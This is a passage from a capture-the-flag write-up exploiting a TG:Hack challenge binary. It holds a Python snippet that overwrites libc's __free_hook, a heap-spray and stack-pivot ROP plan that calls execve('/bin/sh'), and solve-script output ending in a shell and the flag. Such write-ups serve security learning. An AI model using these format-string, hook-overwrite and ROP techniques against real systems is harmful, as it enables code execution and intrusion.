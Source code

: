 ```python

ctf(libc.symbols["__free_hook"], libc.address + 0x10a38c)
# trigger free call through printf()
order("%80000c")
```

Now how do we make sure that the 32-bit process doesn't crash?
If we allocate ~2GB, we should have a ~50% chance of success.
To allocate 2GB we can perform `(1024 * 1024 * 1024 * 2) / 2000000 = 1073`
allocations. Each allocating the maximum allowed of 2 million bytes.
During testing we found that around 1200 allocations was pretty good.

To exploit the 32-bit binary we can't really use one-gadgets since they all
require that some register points to the libc GOT. We went with a quick and
dirty solution: pivot the stack and use a ROP chain that calls
`execve("/bin/sh", NULL, NULL)`. While looking for gadgets we found a ton of
`mov esp` gadgets that looked something like this:
```
0x00096ec1 : mov esp, 0x5ff801c0 ; ret
```

That is, they move a constant value into `esp` and then return. Since we have
already sprayed a bunch of allocations, this is probably a valid address!
The exploitation steps for the 32-bit process then looks like this:

1. leak the binary base using the format string bug
2. use the arbitrary read to leak puts() through the GOT
3. use arbitrary write to change `__malloc_hook` into the stack pivot gadget
4. write ROP chain into new stack at `0x5ff801c0`
5. trigger a call to `malloc()` from `wash_hands()`
6. yay, shell!


Let's run the solution script!
```console
$ python2 solve.py REMOTE
[+] Opening connection to parallel2.tghack.no on port 6005: Done
[+] malloc() spray: malloc() spray done!
[*] leak: 0x55cac4997dd1
[+] binary base: 0x55cac4997000
[*] puts: 0x7f2d687159c0
[+] libc base: 0x7f2d68695000
[*] 32-bit binary leak: 0x565d8c1e
[+] 32-bit binary base: 0x565d8000
[*] puts: 0xf7da7360
[+] 32-bit libc base: 0xf7d40000
[+] spraying for fake stack: fake stack spray done!
[*] Switching to interactive mode

congrats, you win!
TG20{pwning_across_the_multiple_universes}
```

Woop! The script runs in a little over one minute, and fails sometimes. But
simply running it a few times should give you the flag.
